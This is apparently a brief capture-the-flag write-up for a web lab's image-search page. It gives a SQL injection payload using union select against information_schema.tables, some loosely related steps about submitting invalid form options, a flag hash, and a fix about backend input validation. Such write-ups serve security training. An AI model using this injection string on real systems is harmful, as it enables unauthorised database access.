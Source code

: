 # Where: <br>
    /?page=searchimg
# How:
-By entering
> 1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()<br>
-Change the value of 1 of the options to an invalid value.
Or
-Add an invalid option.
-Select the invalid value
-Receive the flag
# Flag:
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
Store options server side/on backend.All user input should be sanitised and validated (backend).
